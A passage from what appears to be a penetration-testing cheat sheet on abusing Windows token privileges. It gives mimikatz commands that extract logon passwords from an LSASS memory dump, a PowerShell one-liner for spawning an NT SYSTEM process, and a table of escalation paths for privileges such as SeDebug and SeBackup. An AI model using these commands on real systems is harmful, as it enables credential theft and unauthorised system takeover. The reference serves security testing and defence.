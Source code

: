 You can then load this dump in mimikatz to obtain passwords:

```
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

#### RCE

If you want to get a `NT SYSTEM` shell you could use:

* [**SeDebugPrivilegePoC**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)
* [**psgetsys.ps1**](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)

```powershell
# Get the PID of a process running as NT SYSTEM
import-module psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>)
```

## Table

Full token privileges cheatsheet at [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin), summary below will only list direct ways to exploit the privilege to obtain an admin session or read sensitive files.\\

| Privilege                  | Impact      | Tool                    | Execution path                                                                                                                                                                                                                                                                                                                                     | Remarks                                                                                                                                                                                                                                                                                                                        |
| -------------------------- | ----------- | ----------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **`SeAssignPrimaryToken`** | _**Admin**_ | 3rd party tool          | _"It would allow a user to impersonate tokens and privesc to nt system using tools such as potato.exe, rottenpotato.exe and juicypotato.exe"_                                                                                                                                                                                                      | Thank you [Aurélien Chalot](https://twitter.com/Defte\_) for the update. I will try to re-phrase it to something more recipe-like soon.                                                                                                                                                                                        |
| **`SeBackup`**             | **Threat**  | _**Built-in commands**_ | Read sensitve files with `robocopy /b`                                                                                                                                                                                                                                                                                                             | <p>- May be more interesting if you can read %WINDIR%\MEMORY.DMP<br><br>- <code>SeBackupPrivilege</code> (and robocopy) is not helpful when it comes to open files.<br><br>- Robocopy requires both SeBackup and SeRestore to work with /b parameter.</p>                                                                      |
| **`SeCreateToken`**        | _**Admin**_ | 3rd party tool          | Create arbitrary token including local admin rights with `NtCreateToken`.                                                                                                                                                                                                                                                                          |                                                                                                                                                                                                                                                                                                                                |
| **`SeDebug`**              | _**Admin**_ | **PowerShell**          | Duplicate the `lsass.exe` token.                                                                                                                                                                                                                                                                                                                   | Script to be found at [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1)                                                                                                                                                                                                         |